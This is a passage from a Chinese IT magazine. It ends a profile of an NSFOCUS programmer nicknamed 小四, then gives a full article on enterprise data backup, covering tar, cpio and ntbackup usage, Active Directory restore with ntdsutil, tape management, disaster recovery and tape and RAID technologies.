小四说庄子的哲学思想对自己影响很大，他很崇尚庄子淡漠名利的超然人生态度。他说自己一度脾气急躁，与别人讨论技术问题常会争个面红耳赤，语锋犀利，不留情面。虽是对事不对人，但常令对方很难接受。后来一位小四很尊敬的大师兄了解他这种情况，就建议他读读庄子。庄子“人不与天争”的观点使他很受触动，乍一看似有消极之嫌，但本质上是一种遵循客观规律的积极生活态度。现在的小四面对生活中的挫折、失意和过错都以乐观辨证的成熟态度对待，待人接物更加随和、友善。他已将顺其自然、平淡低调视作自己重要的生活准则。用他自己的话说就是：“做人不要跳来跳去！”

交谈中小四多次强调自己的“程序员”身份，他认为一个程序员的生活方式就应该是甘于寂寞，在代码行间默默耕耘。在浮躁烦恼的时候，他就会去翻一翻庄子的书，顿悟人生如梦，心境很快会平静下来。

小四至今为当年执意从银川铁路分局出走而中断的党组织关系而惋惜不已，这让我感到他身上很强烈的计划经济时代的传统组织观念，这在当今青年人里是少有的。而现在他的组织观念更多的表现为一种“团队精神”。他说“绿盟”给他提供了一个最佳的技术交流环境，一个人的能力总是有限，别人的长处往往正是自己的不足。“一根筷子很容易折断，但 10 根筷子在一起就很难折断”，这是他对个人与团队的理解，也是“绿盟人”的共识。

在“绿盟”那段发展困难的时期，面对其他公司的诚邀加盟，他这样答复对方：“我们当时十几个人一起来的，这会儿我要是离开他们一个人先走了，那以后我还‘混不混’了？”大白话，但很有份量。小四说抛开技术本身，他在“绿盟”比较佩服的人就是 DEEPIN 和“眼圈”沈总。前者的少年老成，后者的人格魅力，他说，“有‘眼圈’在，就感觉公司还有希望，有困难，大伙儿团结起来就能克服。”

小四家境很困难，父母去世又早，家庭生活的重负和责任都落在他的肩头。但给我留下更深印象的倒不是他苦撑家庭危局的艰辛经历，而是他叙述此事时平静的语气和轻松的神情。与其说这是人在苦难过后表现出的释然与超脱，我更相信是潜心研读“老庄”修得的正果。小四绝对是个性情中人，过去 20 年艰苦的人生经历，培养了他对家人与朋友的责任感。他视朋友为生活中不可缺少的财富。从长沙母校到银川小站，再到北京“绿盟”，如浮云游子般一路走走停停，但友情从来未曾丢弃。每当回忆起西北那戈壁小站上团委书记期盼的目光；回忆起湖南长沙至岳阳的列车上，同学在寒冷冬夜里“十八相送”的背影，小四的语气依旧平淡，但他目光的“缓冲区”中，却有明显的深情“溢出”。关于交友之道，小四的原则是，“朋友之间尽力互相帮助，帮对方的忙别记着，更不要想着有一天朋友还人情，把这个帮倒找回来，但别人帮自己的忙一定要记住。”

小四不是个生活兴趣单一的人，在计算机技术圈外还有一个“偶像”，那就是足球巨星马拉多纳。从小就爱踢球的他称自己是绝对的“阿迷”，马拉多纳忠实的拥趸。此外他还爱爬山、打乒乓球，喜欢听音乐，电脑里收集有大量的影视剧经典插曲及罗大佑老歌的 MP3。不过兴趣归兴趣，他的一位师兄对他有最准确的定位：“你就是为电脑而生的，你有一天搞不好会死在键盘上！”此话后半句似有些不吉利，所以不宜作本文的结尾，那么还是再听一个小四讲的小故事吧：“一条远航的船上，船长管理着维持船员生命的水，但有一个船员屡屡偷水喝，船长对其防不胜防。直到一天，船长生命垂危，死前他偏偏把管水的重任交给了这个‘惯偷’。可此后，该船员不但没再监守自盗，反而更珍惜每一滴水，且宁可自己少喝，以节省水的使用。他明白了水的重要与责任的重大。”

小四说这个故事让他懂得了责任在身意味着什么。

# 企业网络整体备份

## 解决方案

虽然，计算机技术的发展给人们的日常生活和工作提供了很多便利，然而，人为的操作错误、系统软件或应用软件的缺陷、硬件的损毁、电脑病毒、黑客攻击、自然灾难等等诸多因素都有可能造成计算机中数据的丢失，从而给企业造成无可估量的损失。为了保护企业关键业务数据，我们必须对这些数据进行有效的备份，并支持快速恢复。从安全的角度来说，备份是和防火墙、病毒、IDS一样重要的防范手段。从某种程度上说，备份甚至比其他防范措施还要重要，因为备份可以在系统完全瘫痪的情况下最大程度地保护公司的信息资产。比如某个企业的OA系统和用电营销系统是信息系统的核心组成部分；而系统中的数据，更是核心中的核心，数据的安全性关系到整个系统能否正常的运行，最终关系到企业的内部办公事务能否正常运转和对外提供正常的服务，所以，做好数据保护是至关重要的，是保证企业系统的最后一道防线。


文/ANONYMOUS



图1

## 一、备份操作

对数据进行备份是为了保证数据的一致性和完整性，消除系统使用者和操作者的后顾之忧。备份数据可分为系统备份和数据备份，系统备份是指操作系统及其运行于该操作系统上的应用软件备份，例如有Winnt4.0，True 64操作系统；数据备份主要指日常工作中所产生的生产数据及其日常工作文档的备份，包括有数据库、办公文件等；如图1所示。

备份的方法也很多，有手工备份、自动备份、LAN备份、LAN-Free备份等。不同的备份方法，其效果不同，主要表现在性能、自动化程度、对现有系统应用的影响程度、管理、可扩展性等方面。目前企业采用的备份方式是最基本的备份方式，没有考虑性能、自动化程度、对现有系统应用的影响程度、管理、可扩展性等方面的因数。如果条件允许的话，建议企业采购专业的备份软件，以实现备份的统一管理，提高系统的性能，自动化程度和减少备份对系统的影响程度。

### 1. 备份操作规范

确定需要备份的数据，该项目必须由相关部门共同协商确定。

明确系统的备份操作员，备份操作员负责实施备份策略，备份操作员在完成备份后，必须填写备份记录表，记录备份类型、时间和磁带编号等。

选择合适的备份类型，对于备份在效率和恢复时的完整性产生决定性作用。

备份方式一般有三种，完全备份、增量备份和差异备份。

- (1) 完全备份 (Full Backup)
  每次备份策略中已定义的所有数据；完全备份的优点是直观，恢复速度快；缺点是备份数据量大，而且包含大量的重复数据。

- (2) 增量备份 (Incremental Backup)
  备份最近一次完全备份以后更新的所有数据。优点是没有重复的备份数据，节省磁带空间，缩短备份时间；缺点是恢复数据麻烦，需要提供全部的增量备份数据，其中任何一份备份数据出了问题都会导致恢复失败。

- (3) 差异备份 (Differential Backup)
  备份最近一次完全备份之后新增加的和修改过的数据。优点是保持数据量较小时，最大化地保证数据的完全恢复，并且恢复方便，只需要两份副本（完全备份和当前的差异备份）。

选择备份方式时，应遵守以下规则：

- 对于操作系统和应用程序代码，可在每次系统更新或安装新软件时做一次完全备份。
- 对于一些日常数据更新量大，但总体数据量不是非常大的关键应用数据，可每天在用户使用量较小的时候安排完全备份。
- 对于日常更新量相对于总体数据量较小，而总体数据量非常大的关键应用数据，可每隔一个月或一周安排一次完全备份，在此基础上，每隔一个较短的时间间隔做增量备份和差异备份。
- 备份操作人员备份前须到磁带保管员领取磁带，备份操作人员备份完成后，必须将磁带交回保管人员，保管员负责对此进行登记记录。

### 2. 备份操作

- (1) 操作系统备份及恢复
  操作系统的备份由系统管理员负责实施，由于操作系统更改相对较小，因此不必频繁备份，可在每次系统更新或安装新软件时做一次完全备份。

#### Unix 系统

对于任何系统来说，都应该保留系统的一份干净、完整的完全备份，这对于以后的快速恢复具有非常重要的作用。对系统的完全备份可以通过Unix自带的命令，比如dd、tar、cpio、dump，或使用其他第三方软件（如ghost）进行硬盘全盘备份。tar命令是用来备份文件和文档管理的最常用方式。它可以灵活的将文件存到任何媒体上。一般命令为：

```
tar cvf (file name) (filenames to backup)
```

如对系统的完全备份：`# tar cvf /dev/rmt/0m /`
`/dev/rmt/0m`是指磁带驱动器，“/”指需要备份的内容
恢复时：`# tar xvf /dev/rmt/0m`

而cpio可以增加备份的容量和扩展磁带，从而使用户可以创建可增加的备份集，同时还可以全系统备份。如备份一个目录的内容：

```
ls | cpio -o > /dev/mt0
```

dump与tar功能基本相同，只是难用一些，但用户可以使用dump的级别指定要备份文件的最后一次被修改的时间。

```
dump [option] filesystem
```

应该明确系统备份不必经常进行，但在系统做出较大更改前必须进行备份；比如要安装新的软件，则必须在安装前备份系统；安装后请不要立即备份系统，应使用一段时间，待系统完全稳定后再进行系统备份。

#### Windows 系统

首先，同样应该保留一份完全干净的系统完全备份档案。其次，在日常工作中也应该对系统进行备份；对于Windows系统的备份，可以通过系统自带的备份恢复工具Ntbackup实现备份，也可以使用第三方软件，比如ghost对硬盘进行全盘备份。

由于Windows NT4.0的系统备份和恢复比较简单，在此不再描述；以下主要介绍对Windows 2000的活动目录的备份和恢复过程。

- 备份 Active Directory 数据
  如果一个域内存在不止一台DC，当重新安装其中的一台DC时备份Active Directory并不是必需的，你只需要将其中的一台DC从域中删除，重新安装后使之回到域中，那么另外的DC自然会将数据复制到这台DC上。
  当域内只剩最后一台DC，那就必需要对Active Directory进行备份。详细过程如下：
  - (1) “开始”菜单 -> “运行”，输入“ntbackup”，启动 Win2000 备份工具。
  - (2) 在“欢迎”标签中使用“备份向导”，在备份向导对话框选择备份的内容页面中选择“只备份系统状态数据”，下一步。
  - (3) 在“备份保存的位置”页面中输入存放备份数据的文件名，如备份文件名（如“systembackup.bkf”），下一步，完成备份向导。如果要进行一些设置，如备份完成后验证数据，请使用“高级”选项进行配置。
  - (4) 选择“完成”开始备份，备份完毕系统会生成备份报表。
  - (5) 由于备份数据中包含非常敏感的账号等方面的信息，所以应该妥善保存备份的数据。

#### Active Directory 的恢复

有两种办法可以恢复 Active Directory。第一种是从域的其它 DC 上恢复数据，前提是域内必须还有一台 DC 是可用的，这时当损坏的 DC 重新安装并加入到它原来的域时，DC 之间会自动进行数据复制，Active Directory 随之会恢复。另一种方法就是从备份介质进行恢复，从备份介质进行 Active Directory 恢复有两种方式可以选择：验证方式(authoritative restore)和非验证方式(nonauthoritative restore)。

通常情况下，Windows2000 使用非验证方式恢复：Active Directory 从备份介质中恢复以后，域内其他的 DC 会在复制过程中使用新的数据覆盖旧的恢复过来的旧的数据。举个例子，假设今天是星期五，你使用了星期三的备份对 Active Directory 进行了恢复，那么，从星期三以来已经更改了的数据会复制到你正在恢复 Active Directory 的 DC 上，也就是新数据会覆盖你使用备份恢复的数据。验证模式则完全不同，它会将从备份介质恢复过来的数据强行复制到域内所有的 DC 上，无论从备份以后数据是否发生了变化。还拿上面的例子来说，当你在星期五使用星期三的备份恢复了 Active Directory 后，这些恢复过来的数据会复制到域内所有的 DC 上，强行将备份后发生改变的所有数据覆盖掉，域内数据就恢复到了备份时的状态。验证模式恢复 Active Directory 通常用于这种情况：Active Directory 在域内某台 DC 上发生了严重的错误，而且这种错误通过复制扩散到了域内的其它 DC 上，这时就需要在某台 DC 上使用验证方式恢复 Active Directory，强制使域恢复到原来的好的状态。

#### 非验证恢复过程

要实现非验证恢复，目录服务必须处于离线状态（备份 Active Directory 时目录服务不必处于离线状态）。为恢复 Active Directory，你必须使用 Server 处于“目录服务恢复模式”。要做到这一点，需要重新启动 Server，当屏幕提示你选择操作系统时，按 F8，启动系统启动高级菜单， 选择“目录服务恢复模式”。

当 Windows2000 出现用户登录窗口时，输入本地管理员账户和密码（注意，不是在 Active Directory 中的管理员的账号和密码，因为这时 Active Directory 处于离线状态，不可用。你只有使用存储在安全账户管理器，有时称之为 SAM 中的管理员账号和密码进行登录）。登录成功后，你就可以进行恢复 Active Directory 的操作。

- (1) 启动 Windows2000 自带的备份程序：“开始” -> “运行”，输入“ntbackup”。
- (2) 在欢迎标签中选择“恢复向导”，跳过欢迎画面，备份程序会显示可以用于数据恢复的备份集。
- (3) 选择合适的备份文件，完成数据恢复，重新启动机器即可。
- (4) 注意：通常情况下，你不能恢复 60 天以前备份的 Active Directory 数据，这是因为受墓碑生命期 (tombstone lifetime) 的限制。

#### 验证方式恢复过程

为实现验证方式恢复，你必须首先实现非验证方式恢复，然后你可以使用 NTDSUTIL 命令行工具实现验证式 Active Directory 恢复。验证式恢复可以实现全部或部分 Active Directory数据的恢复。

- (1) 使用非验证方式恢复 Active Directory，重新启动机器。
- (2) 再次使用“目录服务恢复模式”启动 Windows2000，以管理员身份登录。
- (3) “开始” -> “运行”，输入“ntdsutil”，启动命令行工具。
- (4) 恢复整个 Active Directory 数据库，使用下列命令：
  ```
  authoritative restore
  restore database
  ```
  恢复部分 Active Directory 数据，使用下列命令：
  ```
  authoritative restore
  restore subtree ou=ouname, dc=dcname, dc=dcname
  ```
  红色部分要根据实际情况确定，比如你的域名字是 netpower.com，要恢复的 OU 是 secdept 则第二行命令应该是：`restore subtree ou=secdept, dc=netpower, dc=com`，依此类推。恢复部分数据的方式有时用来恢复被删除的OU，如某域内有两个管理员，管理员A和管理员B，管理员B不小心把一个重要的OU给删除了，那么管理员A就可以使用验证式恢复将这个OU给恢复过来。最后使用quit命令退出，重新启动机器。

- (2) 数据库备份及恢复
  数据库的备份由数据库管理员负责实施，由于数据库的数据直接关系到企业的关键业务，因此认真实施数据库备份是数据库管理员的一项重要工作，数据库的备份主要有以下几种方式：
  逻辑备份 就是将某个数据库的记录读出并将其写入到一个文件中。
  - export (导出)
    此命令可以将某个数据文件、某个用户的数据文件或整个数据库进行备份。
  - import (导入)
    此命令将export建立的转储文件读入数据库系统中，也可按某个数据文件、用户或整个数据库进行。
  物理备份 就是对数据库的所有内容进行拷贝，方式可以是脱机备份和联机备份。
  - 脱机备份
    其操作是在数据库正常关闭后，对数据库进行备份。备份的内容包括：所有用户的数据库文件和表；所有控制文件；所有的日志文件；数据库初始化文件等。可采取不同的备份方式，如：利用磁带转储命令 (tar) 将所有文件转储到磁带上，或使用备份软件将将所有文件原样复制到另一个备份磁盘中或另一个主机的磁盘中。
  - 联机备份
    联机备份这种方式也是切实有效的，它可以将联机日志转储归档，在 Oracle 数据库内部建立一个所有进程和作业的详细准确的完全记录。联机备份过程具备强有力的功能。第一，提供了完全的时间点 (point-in-time) 恢复。第二，在文件系统备份时允许数据库保持打开状态。
  物理备份的好处是可将Oracle数据库管理系统完整转储，一旦发生故障，可以方便及时地恢复，以减少数据库管理员重新安装Oracle带来的麻烦。

### 3. 备份策略

企业的系统庞大，组织较为复杂，因此在制定备份策略时必须具有针对性，对于不同的系统建立不同的备份策略。

### 4. 备份注意事项

- 备份应该是频繁而且定期的工作，制定合适的备份策略，并且正确实施，对日后的恢复过程将有很大的帮助。
- 备份前检查数据源的完整性；备份危险的数据源将毫无用途，因此在备份前必须检查数据源的完整性，确保备份的数据完整可用。
- 系统做较大更改前做完全备份；在安装新设备、程序或其他系统组件前，请备份系统。
- 备份介质的循环使用
  备份过程中要用到大量的存储介质，备份介质的保留时间的长短将决定所需购置和维护的介质数量。备份介质应该可以被循环使用，但是你必须保证不使用最新的备份介质；备份介质的循环使用应遵守以下原则：
  - (1) 每天的备份介质，除周五的外，1 周后可循环使用
  - (2) 所有星期五的备份介质可在 1 个月后循环使用，除最后一个周五的备份。
  - (3) 对于每月的全备份介质，3 个月之后可循环使用，最后一个月除外。

## 二、备份管理

### 1. 备份介质管理

- 备份磁带必须由科技信息处指定专人负责保管；备份操作人员领取磁带进行备份时，保管员必须对此进行登记；备份操作人员备份完成后，必须将磁带交回保管人员。
- 应建立磁带库进行统一管理，所有磁带必须标号。
- 磁带的存放场所应有防火、防热、防潮、防尘、防磁；温度应保持 18℃~24℃，相对湿度应保持 40%~60%；磁盘远离辐射源（如电话、录音机和其他电子设备）。
- 磁带表面不允许触摸；磁带盒与盒的间距不小于 3mm；存放磁带最好不用铁皮柜。
- 磁带库的存放场所必须有防盗设施，非授权人员不得进入；鉴于备份数据的重要性，遗失磁带将造成极大的安全威胁，如果发生磁带遗失事件，科技信息处应对此追查。

# 专题企划
## SUBJECT LAYOUT
栏目编辑：本刊编辑部

- 科技信息处必须定期对磁带库进行审计，规范磁带的管理。
- 容灾考虑：关键业务将磁带库中的磁带拷贝一份，存放在远离数据中心的地方，以防数据中心发生不可预测的灾难，比如火灾、水灾、地震等。
- 对于磁带机产品而言，驱动器及磁带的寿命都很关键；磁带机的寿命以磁头为主，现有磁头的寿命在3万小时左右，若以每周5天工作日，每天备份5小时计，一个磁头可使用7年至23年。磁带的寿命是以磁带经过磁头的次数计算(Pass)，目前磁带的寿命在5,000-1,000,000 Pass之间。对于磁带机的保养，请咨询硬件供应商。
- 磁带销毁：对于接近使用寿命极限的或意外损坏的磁带，应该及时销毁；可采用消磁、粉碎等方式（详情请咨询硬件供应商）；销毁时至少有包括磁带保管员在内的二人在场，同时磁带保管员应记录备案。

### 2. 备份数据测试
为了保证备份策略实施的正确性，备份的数据必须确实可用，定期对备份数据的检查也是一项重要内容。因此必须定期检查备份介质和数据的可用性；对于关键业务的数据，应架设一套与实际系统一致的模拟系统，定期恢复备份介质中的数据，测试数据的可用性和完整性。

### 恢复数据的校验
- (1) 系统的恢复数据，由系统管理员检查数据的可用性和完整性；
- (2) 数据库恢复数据，由数据库管理员负责检查数据的可用性和完整性；
- (3) 其他恢复数据，由相关维护人员负责检查数据的可用性和完整性。

## 三、数据灾难恢复
灾难恢复是指生产运行中任一环节、任一时刻出现故障而导致整个系统部分或全部不能正常工作时，所必需采用的相应的恢复手段及对生产系统可能造成的损失评估。备份的目的是为了防止在异常事故下的数据丢失，一旦运行数据发生问题，如何从备份介质中恢复出最当前的数据，才是我们真正关心的问题。我们不希望灾难发生，也不希望任何故障出现。然而灾难的出现往往是突然的、预先不可知的。所以我们应有一套应付各种灾难情况下的灾难恢复解决方案，以备不时之需。我们归纳出以下有可能会出现的几种情况，并提出了相应的解决措施。

### 1. 数据恢复原则
备份负责人需要选定相应的数据备份项目，首先选定最近一次全备份进行恢复，然后选定最近一次差异备份，最后选定这次差异备份后的所有增量备份项目，依时间顺序进行恢复即可。数据恢复包括以下内容：



### 数据恢复层次
- 情况一：主机数据磁盘故障（非系统盘）
- 情况二：主机物理损坏
- 情况三：系统盘物理损坏
- 情况四：操作系统不能启动
- 情况五：数据库不可用
- 情况六：磁盘上数据损坏（如由于人为失误、病毒或黑客攻击）

### 2. 解决措施
- 情况一：主机数据磁盘故障（非系统盘）
  - (1) 若数据盘使用了RAID1、RAID5等技术，系统管理员应该可直接热替换硬盘；
  - (2) 若数据盘已不能访问，则需先修好物理盘，然后从备份介质恢复数据。
- 情况二：主机物理损坏
  - (1) 系统管理员手动切换到备用主机；
  - (2) 维修物理主机。
- 情况三：系统盘物理损坏
  - (1) 如果使用了双机热备，系统管理员请切换到备用主机。
  - (2) 替换系统盘；
  - (3) 通过系统备份的灾难恢复操作系统。
- 情况四：操作系统不能启动
  - 系统管理员直接通过备份系统的灾难恢复操作系统。
- 情况五：数据库不可用
  - (1) 停止数据库服务功能，通知其他用户停止使用数据库；
  - (2) 数据库管理员使用数据库备份数据恢复数据库；
  - (3) 启动数据库服务功能。
- 情况六：磁盘上数据损坏（如由于人为失误、病毒或黑客攻击）
  - 备份负责人员使用备份介质上的数据备份恢复数据。

## 四、附录
### 1. 备份技术介绍
存储备份技术并不仅仅指数据的简单拷贝复制，还包括内容及备份的管理等多方面。数据存储备份技术一般包含硬件备份技术及软件备份技术等；硬件技术主要是磁带机、光盘备份和磁盘阵列技术等，因为磁带可以提供高容量、高可靠性以及可管理性，而且价格便宜，因此是硬件备份的首选设备。软件技术主要是通用和专用备份软件技术等；备份软件技术在整个数据存储备份过程中具有相当的重要性，甚至可认为是安全备份的核心技术。除了操作系统本身提供的一些基本的备份功能之外，专业的备份软件是十分重要的。比如比较流行的备份软件有CA的BrightStor Enterprise Backup、Veritas的BackupExec和Netbackup以及Legato的Networker等。

### (1) 磁带机技术
在众多的存储介质中，磁带机以其低成本、大容量，及高安全性和可移动介质在数据备份市场中获得了巨大成功。磁带机技术是真正适合数据存储备份领域，事实上，磁带机技术长期以来一直是首选的惟一的数据存储备份技术。

作为一种备份设备，磁带机技术也在不断发展。当前市场上的磁带机，按其记录方式来分，可归纳为二大类：一类是数据流磁带机，另一类是螺旋扫描磁带机。数据流技术起源于模拟音频记录技术，很类似于录音机磁带的原理。它是通过单个或多个静态的磁头与高速运动的磁带接触来记录数据。这种技术的缺点在于对磁带的张力要求很高，耐用性较差。数据流磁带机按磁带的宽度分为QIC（Quarter-Inch-Cartridge，即1/4英寸）和1/2英寸两种。1/2英寸磁带机是多磁头读写，其数据传输率较高，容量较大。1/4英寸磁带机是单磁头读写，每记录一轨后，都要通过跳轨来做反向记录，记录和检索速度都比较慢。

螺旋扫描技术起源于模拟视频记录技术，很类似于录像机磁带原理。它和数据流技术正相反，磁带是绕在磁鼓上，磁带非常缓慢地移动，磁鼓则高速转动，在磁鼓两侧的磁头也高速扫描磁带进行记录。当它在一定时间内没有收到移动磁带的命令，就会放松磁带并停止转动磁鼓，以防止不必要的介质磨损和避免介质长期处于张力状态。所以，该技术具有高可靠性、高速度、高容量的特点。

目前比较流行的磁带机技术有QIC磁带机、DAT磁带机、DLT磁带机、LTO磁带机等。下面分别给予简单介绍。

### QIC磁带机
QIC磁带机由3M公司开发，这是一种带宽为1/4英寸，配有带盒的盒式磁带，也叫1/4英寸磁带，主要有两种规格产品DC2000/TraVan和QICDC6000磁带机。其中DC2000/Travan为PC机用户提供入门级的数据保护。这种技术的产品价格很低，适于PC和低档网络服务器的备份。它使用非常简单的驱动装置进行纵向记录，但是数据磁带却非常复杂而且昂贵，由于磁带体积大，磁带机只有5.25英寸格式。根据目前的出货来看，它的容量大多为525MB，在容量1GB以上的市场中，它无法与4mm与8mm磁带竞争，DC6000的销量日益下降。

### DAT (Digital Audio Tape) 技术
DAT技术又可以称为数码音频磁带技术，最初是由惠普公司与索尼公司共同开发出来的。这种技术以螺旋扫描记录(Helical Scan Recording)为基础，将数据转化为数字后再存储下来，早期的DAT技术上主要应用于声音的记录，后来随着这种技术的不断完善，又被应用在数据存储领域里。DAT技术主要用于多用户系统或局域网。DAT在非常合理的价位提供高质量的数据保护。

在信息存储领域里，DAT一直是被极为广泛应用的技术，而且种种迹象表明，DAT的这种优势还将继续保持下去。这种技术之所以大受欢迎的原因在于它具有很高的性能价格比。我们以惠普DAT技术为例：首先，在性能方面，这种技术生产出的磁带机平均无故障工作时间长达200000小时;在可靠性方面，它所具备的即写即读功能能在数据被写入之后马上进行检测，这不仅确保了数据的可靠性，而且还节省了大量的时间。第二，这种技术的磁带机种类繁多，能够满足绝大部分网络系统备份的要求。第三，这种技术所具有的硬件数据压缩功能大大加快了备份速度、而且压缩后的数据安全性更高。第四，由于这种技术在全世界都被广泛应用，所以在全世界都可以得到这种技术产品的持续供货与良好的售后服务。第五，DAT技术产品的价格格外吸引人。这种价格上的优势不仅在磁带机上，在磁带上也得到了充分的体现。

##### 4mm 技术
4mmDAT又称数字音频磁带技术(Digital Audio Tape)。早期的DAT技术主要应用于声音的记录，后来随着这种技术的不断完善，又被应用在数据存储领域里。4mm的DAT经历了DDS-1、DDS-2和DDS-3等3种技术阶段，容量跨度在1GB-12GB。4mmDAT由于小巧和适当的容量，在前几年发展很快，在小型网络中应用较多。目前惠普已经推出了采用DDS-4标准、容量为40GB的磁带机。由于该磁带存储系统采用了螺旋扫描技术，使得该磁带具有很高的存储容量。DAT磁带系统一般都采用了即写即读和压缩技术，既提高了系统的可靠性和数据传输率，又提高了存储容量。

##### 8mm 技术
基于螺旋扫描记录技术的8mm产品由Exabyte公司开发。由于8mm技术本身适合于大容量存储，在计算机数据比较少的早期，其应用面不是很广，主要与大中小型计算机配套。随着计算机网络中数据量呈几何级数的增长，8mm技术越来越体现出其优势，8mm技术有着广阔的向上发展空间。并且每一种新的、高端的8mm产品，都向下兼容低端产品，保护了用户原有的投资。

### DLT (Digital Linear Tape) 技术
DLT又可称为数码线型磁带技术，最初由DEC和Quantum公司联合开发，主要应用于VAX系统。尽管这种技术性能出众但是由于价格过于昂贵，在1993年时销售量降到最低点。但后来随着高档服务器的容量超过了其它磁带机技术所能提供的容量(例如8mm)，DLT又重新成为信息存储领域里的热门话题。DLT技术采用单轴1/2英寸磁带仓，以纵向曲线性记录法为基础。DLT产品定位于中、高级的服务器市场与磁带库应用系统。目前DLT驱动器的容量从10GB到35GB不等，数据传送速度相应由1.25MB/秒至5MB/秒。

##### 磁带存储新技术 LTO
LTO (Linear Tape Open 开放线性磁带协议) 开放磁带系统是一种全新的磁带存储标准格式，它是专为实现磁带备份的开放性标准、以及新层次的可扩展性、可靠性、和自动化而设计的技术。其优点主要是将服务系统、硬件数据压缩、优化磁道面、高效纠错技术和提高磁带容量性能等结合于一体。由于LTO技术是一种“开放格式”技术，这就意味着用户将可拥有多项产品和多规格存储介质，尤其开放性可带来更多的发明创新，减少新技术开发风险，从而达到使产品价格下降和用户受益的目的，另外还可提高产品的兼容性和延续性。LTO第四代标准的容量为800G，传输速度为80MB/s~160MB/s，这是目前任何一种磁带机都无法比拟的。开发LTO的主要原因有以下几点：一是建立一个开放的磁带机产品标准；二是不断改进磁带机产品的可靠性；三是增强产品的可扩展性，适应数据量激增的现实需求；四是减少备份的时间，提高产品的性能。

目前，LTO技术有两种存储格式，即高速开放磁带格式Ultrium和快速访问开放磁带格式Accelis，它们可分别满足不同用户对LTO存储系统的要求。Accelis磁带格式则侧重于快速数据存储，Accelis磁带格式能够很好地适用于自动操作环境，可处理广泛的在线数据和恢复应用。

Ultrium 磁带格式除了具有高可靠性的 LTO 技术外，还具有大容量的特点，既可单独操作，也可适应自动操作环境，非常适合备份、存储和归档应用。Ultrium 格式的另一大优势是它的发展前景；现已设计了四代产品，每一代产品的性能和存储能力都要比上一代高一倍。第一代产品中一盘磁带将具有 200GB(2:1 压缩比例)存储容量。在未来的几年内，一盘磁带的存储容量将达到惊人的 1.6TB。因而 Ultrium 格式不仅能满足当前数据保护的需要，也能满足未来的需要；包括 HP，IBM 和 Seagate 等众多厂商都有 Ultrium 格式的磁带机产品。

### (2) 磁盘阵列技术
磁盘阵列的英文名称为 RAID，其原理是利用数组式磁盘组，配合数据分散排列的设计，以提升资料的可用性。RAID 技术是一种工业标准，各厂商对 RAID 级别的定义也不尽相同。目前对 RAID 级别的定义可以获得业界广泛认同的只有 4 种，RAID 0、RAID 1、RAID 0+1 和 RAID 5。

